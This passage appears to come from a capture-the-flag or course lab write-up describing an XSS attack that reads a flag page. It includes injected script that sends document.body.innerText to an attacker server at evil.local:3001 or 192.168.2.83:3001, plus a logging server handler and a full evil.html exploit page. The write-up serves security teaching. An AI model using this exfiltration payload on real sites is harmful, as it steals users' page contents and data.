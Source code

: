    (3) Set up a server, which owns the home page `evil.html` and has a domain and port: `evil.local:3001` 

   (4) After reading the `flag.html` page, I should send the content to my own server to get the flag. One way is to set up another URL in the injected script. When the script got executed, the request should be sent automatically. The code could be like this:

   ```js
   <script>
       setInterval(function() {
           document.title = new Date() + "<script>window.open('http://evil.local:3001/synctag?content='+document.body.innerText)<\/script>" ;
       }, 10 * 1000); // 60 * 1000 milsec*/
   </script>
   ```

   In this snippet, `http://evil.local:3001/synctag` is a new request, which can accept the flag, the code of this request could be:

   ```js
   app.get('/synctag', function (req, res) {
       console.log(req.query);
       res.send("success");
   })
   ```

   (5) After testing it locally, I launched the code on the server,  the URL should be changed as the server indicated, and removed the `setInterval` function. By adding `http://192.168.2.83:3001` as the visit page for the admin, I was able to get flag from the log of my server.

   ![image-20200303171146646](/home/yanan/.config/Typora/typora-user-images/image-20200303171146646.png)

5. The whole source code of Question 1.5 is as below:

   (1) Exploit code: `evil.html`

   ```html
   <!DOCTYPE html>
   <html>
   
   <head>
       <title>HTML Reference</title>
       <script>
           document.title = new Date() + "<script>window.open('http://192.168.2.83:3001/synctag?content='+document.body.innerText)<\/script>" ;
       </script>
   </head>
   
   <body>
   The content of the document......
   </body>
   
   </html>
   ```

   (2) Server code: `index.js`
